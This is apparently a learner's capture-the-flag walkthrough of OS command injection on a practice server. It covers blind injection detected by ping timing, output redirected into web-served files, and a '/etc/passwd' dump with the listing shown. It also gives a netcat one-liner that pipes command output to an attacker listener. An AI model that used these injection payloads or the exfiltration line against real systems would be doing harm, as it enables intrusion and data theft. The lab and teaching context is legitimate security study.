 Walkthrough of OS Command Injection. Demonstrate OS Command Injection and explain how to prevent it on your servers

# NOTE
- dont for get ```;```

# Blind Command Injection
Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).

[!php](https://i.imgur.com/lB8diiC.png)

blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

## Ping!
Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds. 

## Redirection of Output

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the `>` Bash operator redirects output to a file or process so you could try redirecting the output of `id`, `whoami`, `netstat`, `ip addr` or other useful command to see if you can see the results.

## Bypassing the Blind Injection with Netcat

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like ```root; ls -la | nc {YOUR_IP} {PORT}``` . This will send the output of ls -la to your netcat listener.

## Action
1. Ping the box with 10 packets.  What is this command (without IP address)?
```; ping -c <packets> <ip>```
2. Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?
```; uname -r > linux.txt```. Now http://<ip>/linux.txt

more command to get kernal version? 
```console
$ uname -a
$ cat /proc/version
$ dmesg | grep Linux
```
just for fun I did: ```; cat /etc/passwd > pass.txt``` this is what I found. lol fist time os inject super cool!!
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

# Active Command Injection
Active command injection will return the response to the user.  It can be made visible through several HTML elements.


`passthru()` on [PHP's website](https://www.php.net/manual/en/function.passthru.php),

## Commands to try

**Linux**
- whoami
- id
- ifconfig/ip addr
- uname -a
- ps -ef

**Windows**
- whoami
- ver
- ipconfig
- tasklist
- netstat -an

4. What is the user's shell set as?
```cat /etc/passwd | grep www-data```

5. What version of Ubuntu is running?
```lsb_release -a```
6. Print out the MOTD.  What favorite beverage is shown?
read more about motd [MOTD](https://serverfault.com/questions/481146/there-are-two-motds-shown-when-i-login-to-my-server-using-ssh)
```console
$ find / -name 00-header; 2> /dev/null
/snap/core/8268/etc/update-motd.d/00-header 
/snap/core/9066/etc/update-motd.d/00-header 
/etc/update-motd.d/00-header 
```
# flag
```console
$ find / -name flag.txt; 2> /dev/null
```
